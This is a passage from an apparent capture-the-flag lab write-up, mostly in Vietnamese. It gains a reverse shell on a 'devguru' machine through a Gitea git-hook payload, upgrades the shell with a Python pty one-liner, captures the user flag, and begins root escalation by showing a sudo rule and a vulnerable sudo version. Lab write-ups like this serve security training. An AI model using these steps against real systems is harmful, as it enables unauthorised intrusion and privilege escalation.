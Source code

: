```shell
[*] Setup post-receive hook with command
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[+] File created, shell incoming...
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.10:52018) at 2023-07-31 13:34:23 -0400
[*] Cleaning up
[*] Repository Sub-Ex_Bytecard deleted.

id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
uname -a
Linux devguru.local 4.15.0-124-generic #127-Ubuntu SMP Fri Nov 6 10:54:43 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
frank@devguru:~/gitea-repositories/frank/tempsoft_matsoft.git$ export TERM=xterm
<ories/frank/tempsoft_matsoft.git$ export TERM=xterm
frank@devguru:~/gitea-repositories/frank/tempsoft_matsoft.git$ cd /home/frank
frank@devguru:/home/frank$ ls
data  user.txt
frank@devguru:/home/frank$ cat user.txt
22854d0aec6ba776f9d35bf7b0e00217
```

User Flag: **22854d0aec6ba776f9d35bf7b0e00217**

### Privilege Escalation (Root)

Kiểm tra đặc quyền của thằng frank

```shell
frank@devguru:/home/frank$ sudo -l
Matching Defaults entries for frank on devguru:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User frank may run the following commands on devguru:
    (ALL, !root) NOPASSWD: /usr/bin/sqlite3

```

Với thông tin ở trên, ta có thể thấy thằng frank có thể chạy file sqlite3 kia nhưng không được phép chạy dưới quyền root.

```shell
frank@devguru:/home/frank$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

```
